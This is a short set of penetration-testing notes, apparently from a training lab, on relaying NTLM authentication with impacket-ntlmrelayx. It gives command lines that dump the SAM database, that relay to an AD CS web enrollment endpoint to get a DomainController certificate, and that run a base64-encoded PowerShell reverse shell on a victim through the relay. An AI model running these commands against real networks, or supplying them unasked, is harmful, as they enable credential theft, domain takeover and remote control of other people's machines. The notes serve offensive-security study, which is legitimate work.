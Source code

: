 By default, `ntlmrelayx` dumps the SAM database
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP>
```
>NOTE: Make sure `SMB = Off` in Responder's config

```shell-session
$ sudo impacket-ntlmrelayx -debug -smb2support --target http://ACADEMY-EA-CA01.INLANEFREIGHT.LOCAL/certsrv/certfnsh.asp --adcs --template DomainController
```
# Useful Flags
- `-c`: Execute commands

We can get Powershell reverse shell using [https://www.revshells.com](https://www.revshells.com/) (Powershell #3 (Base64)).
```shell-session
$ impacket-ntlmrelayx --no-http-server -smb2support -t <TARGET-IP> -c 'powershell -e JABj...'
```
Once the victim authenticates to our server, we poison the response and make it execute our command to obtain a reverse shell.